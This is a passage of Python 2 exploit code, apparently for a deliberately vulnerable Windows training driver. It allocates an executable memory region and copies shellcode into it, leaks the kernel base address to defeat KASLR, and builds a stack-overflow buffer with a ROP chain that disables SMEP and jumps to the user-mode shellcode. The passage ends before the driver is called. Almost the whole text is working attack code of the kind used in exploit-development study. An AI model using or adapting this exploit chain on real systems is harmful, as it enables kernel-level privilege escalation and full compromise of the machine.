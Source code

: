 ```python
ptr = kernel32.VirtualAlloc(
    c_int(0),                         # lpAddress
    c_int(len(payload)),              # dwSize
    c_int(0x3000),                    # flAllocationType
    c_int(0x40)                       # flProtect
)

# Creates a ctype variant of the payload (from_buffer)
c_type_buffer = (c_char * len(payload)).from_buffer(payload)

print "[+] Copying shellcode to newly allocated RWX region"
kernel32.RtlMoveMemory(
    c_int(ptr),                       # Destination (pointer)
    c_type_buffer,                    # Source (pointer)
    c_int(len(payload))               # Length
)

# Need kernel leak to bypass KASLR
# Using Windows API to enumerate base addresses
# We need kernel mode ROP gadgets

# c_ulonglong because of x64 size (unsigned __int64)
base = (c_ulonglong * 1024)()

print "[+] Calling EnumDeviceDrivers()..."

get_drivers = psapi.EnumDeviceDrivers(
    byref(base),                      # lpImageBase (array that receives list of addresses)
    sizeof(base),                     # cb (size of lpImageBase array, in bytes)
    byref(c_long())                   # lpcbNeeded (bytes returned in the array)
)

# Error handling if function fails
if not base:
    print "[+] EnumDeviceDrivers() function call failed!"
    sys.exit(-1)

# The first entry in the array with device drivers is ntoskrnl base address
kernel_address = base[0]

print "[+] Found kernel leak!"
print "[+] ntoskrnl.exe base address: {0}".format(hex(kernel_address))

# Offset to ret overwrite
input_buffer = ("\x41" * 2056)

# SMEP says goodbye
print "[+] Starting ROP chain. Goodbye SMEP..."
input_buffer += struct.pack('<Q', kernel_address + 0x3544)      # pop rcx; ret

print "[+] Flipped SMEP bit to 0 in RCX..."
input_buffer += struct.pack('<Q', 0x506f8)           		        # Intended CR4 value

print "[+] Placed disabled SMEP value in CR4..."
input_buffer += struct.pack('<Q', kernel_address + 0x108552)    # mov cr4, rcx ; ret

print "[+] SMEP disabled!"
input_buffer += struct.pack('<Q', ptr)                          # Location of user mode shellcode

input_buffer_length = len(input_buffer)

# 0x222003 = IOCTL code that will jump to TriggerStackOverflow() function
# Getting handle to driver to return to DeviceIoControl() function
```